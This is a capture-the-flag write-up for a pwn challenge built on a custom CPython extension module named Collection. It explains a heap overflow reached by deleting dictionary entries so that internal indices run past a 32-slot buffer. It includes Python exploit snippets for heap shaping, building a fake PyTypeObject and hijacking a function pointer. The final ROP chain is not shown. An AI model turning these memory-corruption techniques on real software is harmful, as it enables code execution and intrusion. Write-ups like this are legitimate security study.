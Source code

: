 
**Disclaimer** 

I worked on this challenge alongside @Echelon__H (on Twitter) 
A great researcher and a good friend. 
We haven't finished the challenge on time, just a few hours after the CTF was over. After the write-ups started flowing we noticed that we solved it with an unintended bug, so we decided to write about it because it's kinda cool.


**Overview**

The challenge consists of several files. The authors provided a Python3.6 file, an .so called Collection.cpython-36m-x86_64-linux-gnu.so, a server-side program called server.py which we communicate with and a test.py file which consists of an example of how to use the Collection module.

The server.py expects from the user a python code, to concatenate it with a script prefix:
	
	from sys import modules
	del modules['os']
	import Collection
	keys = list(__builtins__.__dict__.keys())
	for k in keys:
            if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
                del __builtins__.__dict__[k]
	

By reading the prefix above, we know that we can only work with the 'id','hex','print','range' python's builtins and the custome Collection module which written in C using the CPython API- this is the .so file we mentioned before.

The server.py code also creates a file descriptor(AKA-fd) of the flag file, duplicates it to another fd with the number 1023, and closes the original fd.

Our goal is to open the 1023 fd in order to read the flag.

Solves: 30
Points: 150

**Down To work**

The first called functions in the CPython module is the PyInit_Collection, which is equivalent to the "main" function of any .so or .dll, that being called once the library is loaded.

For each created instance of this class several methods are called:
	sub_1700 - we gave it the name: handle_object_creation. 

This function verifies that the input is a dictionary not larger than 32 members, parses the tuples and creates the structers by calling their init functions:
	Nodes- a double linked list, with a pointer to a record struct.
	Record- the record of the member- the key, the value and the type (long, list,or dict)

The Collection is a python object. The program allocates 0x118h bytes for it- the first 0x18h bytes are for the header, which consits of the reference count and a pointer to a PyTypeObject, which contains function pointers to the functions of the object.
The other 0x100 bytes are for the values of the input dict:
ints- stored as is
lists, dicts- a pointer to the data that stored.

The only function that can be called on an instance of Collection is 'get'. 
When called, behind the scenes several functions are called- the PyTypeObject is dereferenced and GenericSetAttr is called first.

Basically, that’s what we need to know before we understand the vulnerablitty.


**The Vulnerablitty**

After digging into nearly every function in the library, we checked again the handle_object_creation function and noticed something we haven't noticed before.

As was described earlier, this function parses the input dictionary, but we didn't mention that it works with the _PyDict_Next method of the Dictionary Object.

    Iterate over all key-value pairs in the dictionary p. The Py_ssize_t referred to by ppos must be initialized to 0 prior
    to the first call to this function to start the iteration; the function returns true for each pair in the dictionary, 
    and false once all pairs have been reported. The parameters pkey and pvalue should either point to PyObject* variables
    that will be filled in with each key and value, respectively, or may be NULL. Any references returned through them are
    borrowed. ppos should not be altered during iteration. Its value represents offsets within the internal dictionary
    structure, and since the structure is sparse, the offsets are not consecutive.

Based on its documentation we understood that each dictionary member has an internal indexing system in the dictionary structure. Later on, the Collection library uses it as an offset into an array and initializing for this Collection dictionary members.
We also know that we can't create a collection from a dictionary bigger than 32 members, which is exactly the size of the array buffer in memory.

    call PyDict_Next
    test eax, eax
    ...
    mov [r14+rax*8+10h], rdi
     
    
What if we can change the indexing of the members in the dictionary to overflow this buffer?


	x = {}
	for i in range(34):
	    if i == 32:
	        x["%d" % (i)] = 0x41414141 
	    elif i == 33:
	        x["%d" % (i)] = 0x12121212
	    else:
	        x["%d" % (i)] = 0xffffff00 + i 

	for i in range(2):
	    del x["%d" % (i)]



Using the del function in python we were able to create a dictionary with 32 members, but the index of the members was modified so we wrote outside the Array and overwritten the object that was next in memory!


**The Exploit**

We have a relative write primitive on the heap, but we need to get something interesting to be right after us. What is more interesting than a Collection Pyobject with a PyTypeObject pointer which is basically a vtable which later we can trigger it by calling the "get" function?

We started the heap shaping creating 5 collections, deleting the middle one and creating a hole which we need to  create the overflowing collection in it, to overflow the 3rd collection header, the PyTypeObject pointer to point to a "pyTypeObject" that we created, so when we will call 'get' on that collection, it will search the pointer to it in the PyTypeObject- methods attribute.

Very soon we discovered that the garbage collector is deleting our collections.

Each PythonObject has an attribute called ob_refcnt, which states the refernce count to the object.
so, we needed to hold a list with pointers to the collections to prevent from the garbage collector to delete our collections.

	avoid_gc = []
	holes= []
	consec_counter = 0
	hole_idx = 0
	length = 0
	for i in range(5):
             temp = Collection.Collection({"1":4, "2":i})
             avoid_gc.append(temp)
             length += 1
			
              if length > 1:
                   if id(temp) - 0x118 == id(avoid_gc[-2]):   
		   #This means that we created a consecutive allocation on the heap
                       consec_counter += 1
		    
                   else:
		       consec_counter = 0
                   if consec_counter == 2 and hole_idx == 0: 
                       hole_idx = i
                       hole_holder = temp
                       consec_counter = 0

	del avoid_gc[hole_idx-1]

Now we need to create our own PyTypeObject to point to, which will be used when we will call 'get' on the overwritten object.

The function which will be called first is the PyObject_GenericSetAttr, it is in offset 0x13h, in the PyTypeObject.tp_getattro slot. 

If we will overwrite that pointer we will get a jump primitive to our own code!


	PyTypeObject = {}
	for i in range(0,32):
             if i == 0x13: 
	     # PyObject_GenericSetAttr spot
                 PyTypeObject["%d" % i] = 0x41414141
                 continue
    
            PyTypeObject["%d" % i] = 0x30303030 + i #RBP
   

	PyTypeObject = Collection.Collection(PyTypeObject)

We will need to point the PyTypeObject pointer to the Collection we just created.
If you remember, our controlled data starts right after the header at offset 0x18



	x = {}
	for i in range(34):
	
            if i == 32:
                x["%d" % (i)] = 0x2
            elif i == 33:
                x["%d" % (i)] = id(PyTypeObject) + 0x18
            else:
                x["%d" % (i)] = 0xffffff00 + i

	for i in range(2):
            del x["%d" % (i)]


	a = Collection.Collection(x)



Now, all we have left is to write the rop in order to read the fd.

A seccomp defense mechanism is embedded in the code. 
The seccomp mechanism acts like a filter of which syscalls can be called from within the process context. 

After an extensive analysis we understood that we can call the Readv function and the Write function in order to read the flag. 


See the code for further information😊




